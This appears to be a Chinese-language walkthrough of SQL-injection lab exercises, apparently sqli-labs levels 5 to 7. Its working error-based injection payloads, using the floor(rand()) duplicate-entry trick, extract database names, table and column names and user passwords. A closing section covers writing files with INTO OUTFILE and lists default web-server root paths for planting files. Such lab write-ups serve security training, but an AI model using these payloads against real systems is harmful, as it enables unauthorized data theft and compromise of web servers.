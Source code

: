 ```
?id=1' and   (select count(*),concat(0x3a,0x3a,database(),0x3a,floor(rand()*2))name from information_schema.tables group by name) --+
 报错：Operand should contain 1 column(s)    操作应包含一列
 {
 kc表是一个数据表，假设表的行数为10行。
 select  1 from kc    增加临时列，每行的列值是写在select后的数，这条sql语句中是1
 }
 我们增加一列
?id=1' and   (select 1 from (select count(*),concat(0x3a,0x3a,database(),0x3a,floor(rand()*2))name from information_schema.tables group by name)) --+
 报错： Every derived table must have its own alias    每个派生表必须有自己的别名
 修改如下
?id=1' and (select 1 from (select  count(*),concat(0x3a,0x3a,database(),0x3a,floor(rand()*2))name from information_schema.tables group by name)b) --+
 报错得到数据库名 Duplicate entry ::security:0 for key' 

 按照之前的想法我们把database() 换成更复杂的语句
 (select table_name from information_schema.tables where table_schema=database() limit 0,1)

 Duplicate entry '::emails:0' for key ''  得到表名email  修改limit得到第二个表

为了得到user表里面的列名 修改一下
(select column_name from information_schema.columns where table_name='users' limit 0,1)
Duplicate entry '::USER:0' for key ''得到了其中的user列名 修改得到其他列名  得到password列名

获取字段内容
 (select password from users  limit 0,1)  得到   Duplicate entry '::Dumb:1' for key ''
```



### 6

与5相同闭合方式由'变成".

### 7

需要进行本地文件写入，根据环境的不同需要进行设置。如果使用PHPstudy的话在mysql配置问卷中的my.ini修改内容。在尾部添加secure-file-priv=""。（如果引号中是一个问卷路径，导入、出的文件路径会在这个路径下）

```
导入到文件
SELECT.....INTO OUTFILE 'file_name'
```

```
文件路径
winserver的iis默认路径c:\Inetpub\wwwroot

linux的nginx一般   /usr/local/nginx/html，/home/wwwroot/default，/usr/share/nginx，/var/www/htm等

apache .../var/www/htm，.../var/www/html/htdocs

phpstudy ...\PhpStudy20180211\PHPTutorial\WWW\

xammp ...\xampp\htdocs

```
